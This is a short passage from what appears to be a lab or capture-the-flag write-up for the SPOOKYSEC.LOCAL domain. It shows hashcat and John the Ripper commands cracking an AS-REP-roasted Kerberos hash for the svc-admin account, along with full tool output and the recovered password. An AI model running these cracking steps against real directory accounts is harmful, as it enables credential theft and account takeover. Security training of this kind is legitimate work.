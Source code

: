 ```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:5074d38e8727870e0a5716559eee4785$56dab197a6006af987bc542101c4b04c9d01debef4c90735042ff072a4aa25138261f84cdbf502b456a738ed3c84d069c7956ff20d2fbca7ac31662e70e7f5513c3589b00eb26dbe9f125e91c9f125b45dbeea8020e85c3ef9a3e2414589627aa3fa961a61706e3089ca642f2eacefd4416ed7f4ac0306aa0726fc5c4b65ac064918e13590a2d62ed4b25d4bb5a2cf50f72f913b3859736bf7655e142c5c1e80c664782ba93de750ca3750a5e2aeb6a0393dc0229a57f771e35a5665aeb2309c65f4be2f17b9c9b33a851ff347ea18c78ceb97ffe9f7882c4d30d81616350f37832e0c0659ae595e4b0554b9ddb2d6d19924:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:5074d38e872...d19924
Time.Started.....: Tue Aug 10 00:48:01 2021 (0 secs)
Time.Estimated...: Tue Aug 10 00:48:01 2021 (0 secs)
Guess.Base.......: File (passwordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1278.9 kH/s (11.43ms) @ Accel:128 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 16384/70188 (23.34%)
Rejected.........: 0/16384 (0.00%)
Restore.Point....: 0/70188 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: m123456 -> cowgirlup

Started: Tue Aug 10 00:48:00 2021
Stopped: Tue Aug 10 00:48:03 2021

❯ hashcat -m 18200 -a 0 hash --show
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:5074d38e8727870e0a5716559eee4785$56dab197a6006af987bc542101c4b04c9d01debef4c90735042ff072a4aa25138261f84cdbf502b456a738ed3c84d069c7956ff20d2fbca7ac31662e70e7f5513c3589b00eb26dbe9f125e91c9f125b45dbeea8020e85c3ef9a3e2414589627aa3fa961a61706e3089ca642f2eacefd4416ed7f4ac0306aa0726fc5c4b65ac064918e13590a2d62ed4b25d4bb5a2cf50f72f913b3859736bf7655e142c5c1e80c664782ba93de750ca3750a5e2aeb6a0393dc0229a57f771e35a5665aeb2309c65f4be2f17b9c9b33a851ff347ea18c78ceb97ffe9f7882c4d30d81616350f37832e0c0659ae595e4b0554b9ddb2d6d19924:management2005

```

###Joh The Ripper

```
❯ john hash --wordlist=passwordlist.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2021-08-10 00:48) 50.00g/s 332800p/s 332800c/s 332800C/s horoscope..amy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed

❯ john --show hash
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:management2005

1 password hash cracked, 0 left
```
